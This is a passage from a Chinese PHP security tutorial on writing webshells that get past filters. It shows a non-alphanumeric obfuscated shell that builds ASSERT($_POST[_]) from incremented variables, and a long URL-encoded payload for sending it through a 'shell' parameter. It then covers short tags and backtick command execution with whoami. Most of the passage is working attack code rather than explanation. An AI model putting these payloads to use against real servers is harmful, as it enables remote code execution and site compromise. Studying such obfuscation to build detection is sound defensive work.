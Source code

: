 ```
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

注意编码`?shell=%24_%3d%5b%5d%3b%0a%24_%3d%40%22%24_%22%3b%0a%24_%3d%24_%5b'!'%3d%3d'%40'%5d%3b%0a%24___%3d%24_%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24___.%3d%24__%3b%0a%24___.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24___.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24___.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24___.%3d%24__%3b%0a%0a%24____%3d'_'%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24____.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24____.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24____.%3d%24__%3b%0a%24__%3d%24_%3b%0a%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%0a%24____.%3d%24__%3b%0a%24_%3d%24%24____%3b%0a%24___(%24_%5b_%5d)%3b`

![wiPIW6.png](https://s1.ax1x.com/2020/09/03/wiPIW6.png)

#### 方法4：短标签

PHP中有两种短标签，<??>和<?=?>。其中，<??>相当于对<?php>的替换。而<?=?>则是相当于<? echo>。例如:

	<?= '111'?>

将会输出'111' 大部分文章说短标签需要在php.ini中设置short_open_tag为on才能开启短标签(默认是开启的，但似乎又默认注释，所以还是等于没开启)。但实际上在PHP5.4以后，无论short_open_tag是否开启，<?=?>这种写法总是适用的，<??>这种写法则需要short_open_tag开启才行。


#### 方法5：反引号

PHP中，反引号可以起到命令执行的效果。

```
<?php
$_=`whoami`;
echo $_;
// <?= `whoami`?>
```
